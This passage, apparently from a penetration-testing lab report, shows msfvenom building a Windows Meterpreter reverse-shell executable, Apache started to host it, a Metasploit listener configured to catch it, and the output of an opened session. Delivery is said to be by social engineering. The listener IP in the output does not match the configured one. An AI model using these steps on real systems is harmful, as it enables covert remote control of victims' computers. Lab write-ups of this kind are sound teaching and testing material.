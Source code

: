 For hosting malicious payloads, I initiated the Apache web server using:

```
$ service apache2 status
$ service apache2 start
```

The Apache server was successfully started, as confirmed by the status command showing "active (running)" with a Process ID of 1851.

### 4.3 Payload Creation

I created a custom payload using MSFvenom with the following parameters:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f exe -o /root/Desktop/hello.exe
```

The command successfully generated a payload of 354 bytes, with a final executable size of 73802 bytes. This payload was designed to establish a reverse TCP connection from the target system to the attack machine when executed.

### 4.4 Metasploit Framework Initialization

The Metasploit Framework was initiated using:

```
$ msfconsole
```

After initialization, the following command sequence was executed to configure the exploitation environment:

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 172.17.0.1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit
```

This configuration established a listener on the attack machine to receive the connection from the target system when the payload is executed.

### 4.5 Exploitation Results

When the payload was executed on the target system (through social engineering or other means), a Meterpreter session was successfully established. The connection details were displayed as:

```
[*] Started reverse TCP handler on 192.168.136.128:4444
[*] Sending stage (175174 bytes) to 192.168.136.1
[*] Meterpreter session 1 opened (192.168.136.128:4444 -> 192.168.136.1:55202)
```

### 4.6 Post-Exploitation Activities
